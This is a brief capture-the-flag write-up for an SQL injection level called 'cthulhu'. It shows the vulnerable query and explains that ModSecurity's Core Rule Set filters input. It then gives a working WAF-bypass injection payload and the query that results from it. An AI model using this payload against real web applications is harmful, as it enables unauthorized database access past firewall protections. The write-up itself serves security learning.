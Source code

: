 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 33
tags: [SQLi, WAF bypass]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a45d4dce-407b-416d-8625-dd9680076748)

We are provided with the SQL query:

```sql
SELECT id FROM prob_cthulhu WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

&nbsp;

## MOD Security CRS

The MOD Security Core Rule Set, is a set of regex expressions that Web Application Firewalls can use to filter traffic. In this case, out input is being filtered based on this rule set.

In order to bypass this, we can refer [this](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181) Github issue .

![2](https://github.com/Kunull/Write-ups/assets/110326359/7c4e4729-0eb9-45dd-b350-97556d0cd332)

&nbsp;

If we provide the following URI parameter:

```
?id=- -1'<@=1 OR {a 1}=1 OR '
```

The resultant query becomes:

```sql
SELECT id FROM prob_cthulhu WHERE id='-1'<@=1 OR {a 1}=1 OR '' AND pw=''
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/64228788-fb14-4d48-a302-192e1d8a2041)
